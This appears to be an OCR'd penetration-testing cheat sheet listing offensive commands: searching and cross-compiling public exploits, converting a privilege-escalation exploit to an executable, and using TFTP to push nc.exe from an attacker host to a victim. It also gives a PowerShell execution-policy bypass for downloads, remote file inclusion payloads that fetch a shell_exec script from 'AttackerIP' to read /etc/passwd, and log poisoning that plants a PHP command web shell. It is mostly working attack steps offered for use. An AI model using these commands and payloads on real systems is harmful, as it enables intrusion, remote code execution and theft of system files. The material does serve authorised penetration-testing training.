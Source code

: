 Finding Public Exploits:  
www.securityfocus.com/vulnerabilities  
www.exploit-db.com

searchsploit <keyword> #Search exploit-db by keyword  
cp /usr/share/exploitdb/platforms/windows/remote/{643.c,646.c} . #copy found exploit to root directory

**Compiling** 
i586-mingw32msvc-gcc exploit-fixed.c -lws2_32 -o exploit.exe #compile Windows code on Linux  
wine exploit.exe #Run Windows executable on Linux

Convert Python Exploit to Win Exe  
#On our Windows staging host 
#Install pywin32-218.win320py2.7  
#Extract pyinstaller-2.0 
#Move python exploit into pyinstaller-2.0 directory 
#Invoke pyinstaller to convert to Exe  
python pyinstaller.py —onefile ms11-080.py

**File Transfers**  
TFTP  
#Attacker  
mkdir /tftp  
atftpd --daemon --port 69 /tftp  
cp /usr/share/windows-binaries/nc.exe /tftp/  

#Victim  
tftp -i AttackerIP GET nc.exe  

PS File Transfer  
#code sequence in powershell-download file  
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1 #Bypass Execution Policy

**Web Application Attacks**  
LFI/RFI #usually in poor php code .  
RFI  
VulnParam=http://AttackerIP/evil.txt%00 #%00 null byte instructs to ignore everything after value .  
#Where evil.txt is `<?php echo shell_exec(“cat /etc/passwd”);?>`  
`$ echo ‘<?php echo shell_exec(“ifconfig”);?>’ > /var/www/evil.txt`

$ tail -f /var/log/apache2/access.log #track traffic from our apache web server hosting evil.txt

LFI   
#Contaminate the web server log with a PHP backdoor .  
$ nc -nv TargetIP 80  
`<?php echo shell_exec($_GET[‘cmd’]);?>` 

#append URL to execute command from access log file .  
&cmd=ipconfig&VulnParam=../../../../../../xampp/apache/logs/access.log%00
